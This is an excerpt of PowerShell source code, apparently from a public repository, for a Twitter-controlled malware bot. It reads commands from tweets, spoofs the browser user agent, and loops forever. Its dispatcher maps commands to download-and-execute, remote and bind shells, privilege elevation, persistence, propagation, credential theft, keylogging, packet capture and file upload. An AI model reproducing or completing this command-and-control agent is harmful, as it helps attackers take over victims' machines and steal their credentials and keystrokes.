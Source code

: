             #Pull the user agent string from the registry
            [string] $UserAgent = (Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings').'User Agent'
            $WebClientObject.Headers.Add("user-agent", $UserAgent)
            
            [string] $LatestTweet = GetLatestTweet          
            
            Write-Verbose "The latesttweet is $LatestTweet"
            Write-Verbose "Comparing to $LastTweet"
                                            
            #Compares tweet to old tweet to make sure the instruction is new
            if ($LatestTweet -eq $LastTweet) {
                Write-Verbose "There are no new instructions"
                Invoke-TwitterBot
            }
            
            [string] $BotCommand = $LatestTweet.split('|')[0]

            Write-Verbose "Evaluating command $BotCommand"
            Switch ($BotCommand) {
                !quit {Exit}
                !change {ChangeCommand}
                !speak {SpeakCommand}
                !run {RunCommand}
                !downexec {downexecCommand}
                !download {downloadCommand}
                !rickroll {RickrollCommand}
                !shell {ShellCommand}
                !sleep {Sleepcommand}
                !thunderstruck {ThunderstruckCommand}
                !eicar {EicarCommand}
                !screenshot {ScreenshotCommand}
                !popup {PopupCommand}
                !persist {PersistCommand}
                !elevate {ElevateCommand}
                !propagate {PropagateCommand}
                !wallpaper {WallpaperCommand}
                !packetcapture {PacketCaptureCommand}
                !getsystem {GetSystemCommand}
                !bindshell {BindShellCommand}
                !upload {UploadCommand}
                !credential {CredentialCommand} 
                !keylog {KeylogCommand}                   
            }
       }

        catch {
            Write-Verbose 'Error has occurred. Restarting'
            Invoke-Twitterbot
        }

        finally {
            #Make the processed tweet the "lasttweet" so that it can be compared against in the next loop
            Write-Verbose "Making the latest tweet the last tweet for comparing."
            [string] $Global:LastTweet = $LatestTweet 
        }   
    }
 #Loop forever (or until !quit or kill date has passed)
    for (;;) {
        Invoke-Bot -Verbose
    }
}
